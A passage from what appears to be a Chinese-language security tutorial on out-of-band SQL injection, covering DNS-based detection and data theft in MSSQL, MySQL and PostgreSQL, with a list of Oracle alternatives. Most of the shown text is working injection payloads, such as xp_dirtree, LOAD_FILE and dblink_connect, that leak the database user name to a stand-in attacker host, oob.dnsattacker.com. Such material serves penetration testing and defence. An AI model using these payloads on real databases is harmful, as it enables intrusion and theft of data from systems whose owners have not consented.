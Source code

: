 如果您使用的是 Oracle 10G 或更低版本，创建 DNS 查询的一些替代方法是：UTL_INADDR.GET_HOST_ADDRESS、UTL_HTTP.REQUEST、HTTP_URITYPE.GETCLOB、DBMS_LDAP.INIT 和 UTL_TCP。  
##### MSSQL  
###### 检测  
  
**受害者**  
```
EXEC master..xp_dirtree '\\oob.dnsattacker.com \' –
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoJzcibycvgGsOh3SP48e8LVRVa2z0zhsv0Yeu2GYtgLBAk83QdSsuibpw/640?wx_fmt=png&from=appmsg "")  
###### 漏洞利用/数据窃取  
  
**受害者**  
```
DECLARE @data varchar(1024);
SELECT @data = (SELECT system_user);
EXEC('master..xp_dirtree "\\'+@data+'.oob.dnsattacker.com\foo$"');
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpo6UibAaHnu4XMG1pqrNMp8SKdLvYtzQ64m75TWSpz2WHiaiac5yJb1NickA/640?wx_fmt=png&from=appmsg "")  
  
**限制：**  
为了使用这种技术，数据库用户应该具有 sysadmin 权限。  
  
类似地，创建 DNS 查询的其他方法：xp_fileexists、xp_subdirs、xp_getfiledetails、sp_add_jobstep  
##### MYSQL  
###### 检测  
  
**受害者：**  
```
SELECT LOAD_FILE(CONCAT('\\\\', 'oob.dnsattacker.com\\test.txt'));
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpof9Mb6NEwa8ricuxZQwtgtuWtJjB3In2qUZt21GpGfiahzxvmEtRjlJRw/640?wx_fmt=png&from=appmsg "")  
###### 漏洞利用/数据窃取  
  
**受害者**  
```
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT HEX(CONCAT(user(),"\n"))), '.oob.dnsattacker.com\\test.txt'));
```  
  
**限制**  
：为了使用这种技术，数据库用户应该具有 Select、update 和 File 权限。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCP7m4A0lmnsdHx4wBhdvFpoISgLmeibBbibt4Xpqf2Fxp29ft2oTNr8GM0nKn0oGsQliagvBVV4ybWLQ/640?wx_fmt=png&from=appmsg "")  
##### Postgresql  
###### 检测  
  
**受害者**  
```
CREATE EXTENSION dblink;SELECT dblink_connect('host=oob.dnsattacker.com user=postgres password=password dbname=dvdrental');
```  
  